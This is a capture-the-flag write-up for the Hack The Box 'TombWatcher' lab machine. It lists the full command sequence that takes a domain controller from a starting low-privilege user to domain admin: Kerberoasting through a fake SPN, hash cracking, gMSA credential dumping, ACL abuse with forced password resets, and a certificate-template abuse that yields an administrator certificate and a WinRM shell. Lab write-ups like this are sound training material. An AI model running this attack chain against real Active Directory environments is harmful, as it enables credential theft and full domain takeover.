

# HTB Seasonal Machine: TombWatcher - Exploitation Report

**Target**: `10.129.243.66`
**Domain**: `tombwatcher.htb`
**Host**: `DC01.tombwatcher.htb`
**Initial Creds**: `henry / H3nry_987TGV!`

---

## 🔍 Initial Enumeration

### Nmap Full Port Scan

```
nmap -p- 10.129.243.66 -oN initialScan
```

**Open Ports:** 53, 80, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 5985, 9389, 49666–49711

### Nmap Script Scan

```
nmap -sC -sV tombwatcher.htb -oN scriptScan
```

**Domain**: tombwatcher.htb
**Hostname**: DC01.tombwatcher.htb
**LDAP, Kerberos, SMB, WinRM detected**

---

## 🧪 Credential Validation & Enumeration

### Validate Credentials

```
crackmapexec ldap tombwatcher.htb -u henry -p 'H3nry_987TGV!' --kerberos
```

**Result**: ✅ Credentials valid

### User Enumeration

```
crackmapexec ldap tombwatcher.htb -u henry -p 'H3nry_987TGV!' --users
```

**Users Found**: Administrator, Guest, krbtgt, Henry, Alfred, sam, john

### AS-REP Roasting

```
impacket-GetNPUsers tombwatcher.htb/ -usersfile users.txt -no-pass
```

**Result**: ❌ No accounts without pre-auth

---

## 🧠 Kerberoasting Alfred

### Confirm `WriteSPN` to `alfred`

**From BloodHound**



### Add Fake SPN

```
python3 writeSPN.py  # Custom script using ldap3
```

**SPN Added**: `http/fakesvc.tombwatcher.htb`

### Get TGS for Alfred

```
impacket-GetUserSPNs tombwatcher.htb/henry:'H3nry_987TGV!' -dc-host tombwatcher.htb -request
```

**Result**: TGS hash for Alfred dumped

### Crack TGS Hash

```
hashcat -m 13100 alfred_hash.txt /usr/share/wordlists/rockyou.txt
```

**Password Found**: `basketball`

---

## 🔁 Privilege Escalation Chain

### Alfred → INFRASTRUCTURE Group

```
bloodyAD --host 10.129.243.66 -d tombwatcher -u alfred -p basketball add groupMember INFRASTRUCTURE alfred
```

**Result**: ✅ Added

### Dump gMSA Credentials

```
gMSADumper -u alfred -p basketball -d tombwatcher.htb -l 10.129.243.66
```

**Result**: `ansible_dev$` NT hash & AES keys retrieved

### Force Sam's Password Reset

```
bloodyAD --host 10.129.243.66 -d tombwatcher.htb -u ansible_dev$ -p :<NT_HASH> set password sam 'NewP@ssw0rd123!'
```

**Result**: ✅ Success

### Sam → WriteOwner on John

```
owneredit.py tombwatcher.htb/sam:'NewP@ssw0rd123!' -dc-ip 10.129.243.66 -action write -target john -new-owner sam
```

**Result**: Owner changed to `sam`

### Add GenericAll for Sam on John

```
bloodyAD --host 10.129.243.66 -d tombwatcher -u sam -p 'NewP@ssw0rd123!' add genericAll john sam
```

**Result**: ✅ Sam has GenericAll on John

### Reset John's Password

```
bloodyAD --host 10.129.243.66 -d tombwatcher -u sam -p 'NewP@ssw0rd123!' set password john 'Sup3rS3cr3t!'
```

**Result**: ✅ Password reset

---

## 🧼 Cert Admin Path

### Restore Deleted User: cert\_admin

```
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```

**Result**: ✅ `cert_admin` restored

### Reset Password

```
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString 'AdminP@ss123!' -AsPlainText -Force)
Enable-ADAccount -Identity cert_admin
```

**Result**: ✅ Ready to use

---

## 🔥 Abuse ESC6 via WebServer Template

### Request Admin Cert

```
certipy req -u cert_admin -p 'AdminP@ss123!' -ca tombwatcher-CA-1 -template WebServer -target 10.129.243.66 -upn administrator@tombwatcher.htb -application-policies 'Client Authentication'
```

**Result**: ✅ administrator.pfx saved

---

## 🔓 Reset Administrator Password

### Start LDAP Shell with PFX

```
certipy auth -pfx administrator.pfx -dc-ip 10.129.243.66 -domain tombwatcher.htb -ldap-shell
```

```
change_password administrator Admin@2025!
```

**Result**: ✅ Password changed

### Authenticate as Domain Admin

```
evil-winrm -i tombwatcher.htb -u Administrator -p Admin@2025!
```

**Shell**:

```
whoami
> tombwatcher\administrator
```

### Get Flag

```
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🏁 Rooted ✅
